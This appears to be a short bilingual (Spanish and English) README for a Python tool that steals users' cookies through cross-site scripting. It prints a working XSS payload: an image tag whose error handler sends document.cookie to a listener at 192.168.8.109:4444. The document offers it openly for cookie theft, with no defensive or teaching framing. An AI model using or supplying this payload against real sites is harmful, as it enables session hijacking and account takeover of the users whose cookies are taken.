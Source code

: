Un script en python corto pero efectivo para con un XSS, hacer una solicitud de tipo GET y poder obtener las cookies del usuario de manera exitosa.

XSS: <img src=notexist onerror=this.src='http://192.168.8.109:4444/grab.py?'+document.cookie>

A quick but effective python script to steal cookies exploiting a XSS and making a GET request to receive the cookies.
